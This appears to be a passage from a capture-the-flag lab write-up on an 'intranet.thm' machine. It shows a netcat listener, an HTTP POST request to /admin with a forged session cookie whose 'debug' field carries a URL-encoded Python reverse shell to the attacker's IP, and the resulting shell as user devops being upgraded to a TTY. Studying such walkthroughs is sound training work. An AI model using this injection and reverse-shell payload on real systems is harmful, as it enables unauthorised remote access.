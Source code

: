 <br>
<br>
<br>

```bash
root@ip-10-201-41-112:~/Intranet# nc -nlvp 1234
Listening on 0.0.0.0 1234
```


```bash
POST /admin HTTP/1.1
Host: intranet.thm:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://intranet.thm:8080/internal
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://intranet.thm:8080
Connection: keep-alive
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.aN1TIg.LqAuqWsg9sat6UZbV4ycja_2mVk
Upgrade-Insecure-Requests: 1
Priority: u=0, i

debug=%2Fusr%2Fbin%2Fpython3%20%2Dc%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%2210%2E201%2E41%2E112%22%2C1234%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3Bos%2Edup2%28s%2Efileno%28%29%2C1%29%3Bos%2Edup2%28s%2Efileno%28%29%2C2%29%3Bpty%2Espawn%28%22%2Fbin%2Fsh%22%29%27
```



```bash
:~/Intranet# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.201.0.156 44834
$ id
id
uid=1001(devops) gid=1001(devops) groups=1001(devops)
$ pwd
pwd
/home/devops
$ which python3
which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
devops@ip-10-201-0-156:~$ ^Z
[1]+  Stopped                 nc -nlvp 1234
:~/Intranet# stty raw -echo; fg
nc -nlvp 1234

devops@ip-10-201-0-156:~$ export TERM=xterm
devops@ip-10-201-0-156:~$ 
```
